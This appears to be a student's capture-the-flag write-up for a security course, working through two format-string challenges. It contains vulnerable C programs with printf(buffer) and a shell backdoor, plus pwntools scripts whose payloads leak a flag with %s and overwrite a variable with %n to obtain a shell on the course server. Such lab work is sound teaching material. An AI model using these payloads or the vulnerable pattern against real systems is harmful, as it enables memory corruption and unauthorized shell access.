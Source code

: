 # FSI-CTFS: Week #7

**Goal:** Come up with an exploit to the format string vulnerability on the program running in the CTF server.

## **First Challenge**

**Checksec**

- Architecture is x86
- Regions in the memory with RWX permissions
- Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- No address randomization

![Terminal screenshot of checksec](imgs/checksec1.png)

**Program analysis**

- printf(buffer) in line 27 is vulnerable to a format string attack.
- Flag is saved in a string called flag (so it's stored in memory).

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];                    /* IMPORTANT variable in this line*/

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);                             /* Format String vulnerability in this line*/

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

### **Attack**

Because the flag is read and then stored in a string called flag, it will be in memory. Therefore, we can abuse the printf call and make it print our flag!

But first, we need to find the address in memory in which the flag string is stored. We accomplish this with the help of gdb.

![Terminal screenshot of checksec](imgs/gdb1.png)

Now that we have found the memory address of the flag, all we have to do is trick the program into printing!

> By editing the given python script, we can achieve our goal as shown below:


**Python Scipt**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
``` 

Let's explain the payload:
- **\x60\xc0\x04\x08** is the memory address of the flag variable we found earlier using gdb;
- *%s* is used to print the value stored in that address (our flag).

![Terminal screenshot of attack and flag](imgs/flag1.png)

## **Second Challenge**


**Checksec**

Checksec gives the same information as the program in the first challenge.

![Terminal screenshot of checksec](imgs/checksec2.png)


**Program analysis**

The program implemented a minor defense ("special feature"). The new version has a verification to allow system administrators to get access to a shell. It verifies if the 'key' variable corresponds to *0xbeef*. If it does, it grants the user access to a shell.

**Program**

```c
#include <stdio.h>
#include <stdlib.h>

int key = 0;                                /* IMPORTANT variable in this line*/

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);                         /* Format String vulnerability in this line*/
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    }
        
    return 0;
}
```

### **Attack**
- To bypass this all we need to do is write the correct key to the memory address in which this variable is stored. In order to find this out, we can, once again, use gdb.

![Terminal screenshot of checksec](imgs/gdb2.png)

Now that we have found the memory address of the key, we need to write in that address the correct value of the key, *0xbeef*.

> We can achieve our goal by using the following python script:

**Python Scipt**

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"...")
p.sendline(b"####\x34\xC0\x04\x08%48871x%n")
p.interactive()
```

Once again, let's explain the payload:
- **\x34\xC0\x04\x08** is the memory address of the key variable we found earlier using gdb.

Now, this is where it get's tricky...
> In order to write to memory using format strings, we need to the *%n* format string parameter, which prints the number of characters printed. This is useful because it enables us to write whatever we wish! 

And thats what this part --> ####  **key mem address**  %48871x%n is for! But let's break it down. We need to write '0xbeef' to the address, which is equal to 48879. We have already written 4 characters/bytes for the memory address, so we need to write an addicional 4 characters in the start --> **####** and 48871 more at the end --> **%48871x%n**.
Addicionally, the 4 first characters can be whatever you want (ex: 1234 or #### or @@@@), but be aware of the special formatting characters used in the printf.
- The *%x* is used as well in order the convert this value into hexadecimal characters.


> And obtained our second desired flag!

![Terminal print of attack](imgs/flag2.png)
